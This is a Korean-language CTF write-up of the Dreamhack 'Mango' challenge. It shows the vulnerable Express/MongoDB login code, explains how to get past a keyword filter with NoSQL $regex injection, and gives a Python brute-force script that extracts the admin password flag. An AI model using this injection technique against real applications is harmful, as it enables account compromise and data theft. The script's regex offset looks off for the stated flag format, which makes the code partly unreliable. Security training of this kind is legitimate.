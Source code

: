 ```yaml
---
title: "[CTF] 드림핵 Mango"
date: 2025-09-18 18:50:00 +0900
categories: [CTF, Web]
tags: [CTF, MongoDB, NoSQLi]
description: "드림핵 Mango 문제 풀이"
author: "송지민"
toc: true
---
```


## 문제 개요
간단한 Express + MongoDB 앱이다. 로그인 엔드포인트에서 특정 단어를 포함하면 필터링을 하고, 필터를 통과하면 MongoDB에서 `uid`와 `upw`를 직접 조회한다. 플래그는 DB에 `{'uid':'admin','upw':'DH{32alphanumeric}'}` 형태로 들어있다.

문제 코드(원본 전체):

```js
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}

app.get('/login', function(req, res) {
    if(filter(req.query)){
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});

app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');
```

## 핵심 취약점
- `filter`는 요청 파라미터 전체를 JSON 문자열로 만들고 금지어(`admin`, `dh`, `admi`)를 포함하면 차단한다.
- 금지어 필터를 우회할 수 있다. MongoDB 질의로 `$regex`를 사용하면 쿼리가 객체 형태로 전달되어 `dump`에서 점(`.`) 같은 문자가 들어가도 금지어 문자열이 연속으로 포함되지 않을 수 있다.
- MongoDB의 정규식 기반 매칭을 이용해 플래그를 하나씩 추출할 수 있다.

## 풀이 아이디어
1. `uid`에 `admin`을 그대로 쓰면 필터에 걸리므로 우회가 필요하다. `uid[$regex]=ad.in`처럼 `.`을 끼워 넣으면 JSON 문자열에는 `ad.in` 형태로 찍혀 `admin`과 연속되지 않아 필터를 통과한다.
2. `upw`는 32자의 영숫자 조합이다. 한 글자씩 추측하면서 정규식으로 검사한다. 예를 들어 지금까지 알아낸 문자열이 `ABC`이고 다음 문자가 `x`인지 확인하려면 `upw[$regex]=D.{3}x` 와 같은 패턴(정확한 패턴은 문제 DB 형식에 맞춰 조정)을 사용해 조건에 맞는 계정을 찾는다.
3. 서버가 `result`를 반환하면 `result['uid'] === 'admin'` 이므로 응답이 `admin`이면 성공 신호로 간주하고 다음 문자로 넘어간다.

## 내가 쓴 자동화 스크립트 (Python)
아래는 사용한 PoC 스크립트(사용자 환경에 맞게 HOST를 수정해서 실행).

```python
import requests, string

HOST = 'http://TARGET:8000'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''

for i in range(32):
    for ch in ALPHANUMERIC:
        # uid는 regex로 admin 우회, upw는 위치 기반으로 매칭
        payload = {
            'uid[$regex]': 'ad.in',           # admin 우회
            # upw 정규식 예시: ^D{N}ch  또는 문제에 맞춰 조정
            'upw[$regex]': f'D.{{{i}}}{ch}'
        }
        r = requests.get(HOST + '/login', params=payload, timeout=5)
        if r.text.strip() == SUCCESS:
            flag += ch
            print(f'Found {len(flag)}: {flag}')
            break

print(f'FLAG: DH{{{flag}}}')
```

이 스크립트는 알파벳+숫자 조합을 순회하며 `/login`을 호출하고, 응답이 `admin`이면 해당 문자를 플래그의 다음 문자로 기록한다.

## 결과
자동화로 32자를 모두 찾아 `DH{...}` 형태의 플래그를 복원했다. 필터가 문자열 단위로만 검사한다는 점을 이용해 `$regex`를 통해 쿼리를 객체로 전달하면 금지어를 우회할 수 있다.

## 마무리
Mango 문제는 단순해 보이지만 필터 로직의 한계를 이용해 NoSQL 주입/정규식 매칭으로 플래그를 추출하는 전형적인 문제였다. 소스코드와 PoC를 포함해 정리해뒀다.
